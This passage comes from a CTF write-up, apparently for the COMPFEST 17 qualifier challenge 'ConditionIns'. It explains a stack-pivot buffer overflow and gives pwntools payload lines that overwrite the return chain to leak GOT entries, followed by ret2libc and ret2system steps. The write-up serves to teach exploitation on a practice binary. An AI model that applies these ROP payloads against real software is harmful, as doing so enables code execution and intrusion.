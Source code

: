 ```C
        exit(1);
    }
    return result;
}
```

Also when analyze the instruction it does leave twice after return to start so we can just pivot it to stack after input to make it BOF. To pass all check we can just send the payload like this:

```python
sa("You do: ", b"A"*0x20 + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["puts"] + 0x20) + p64(elf.sym["start"] + 45))
```

Here actually we can just call `read_log` instantly, but i stupidly decided to do `ret2libc` with `start + 45` where it print the rbp targeting the `got`.

```python
sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["setbuf"] + 0x20) + p64(elf.sym["start"] + 45))
```

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/ConditionIns.png)

After finishing leak we can just do `ret2system`
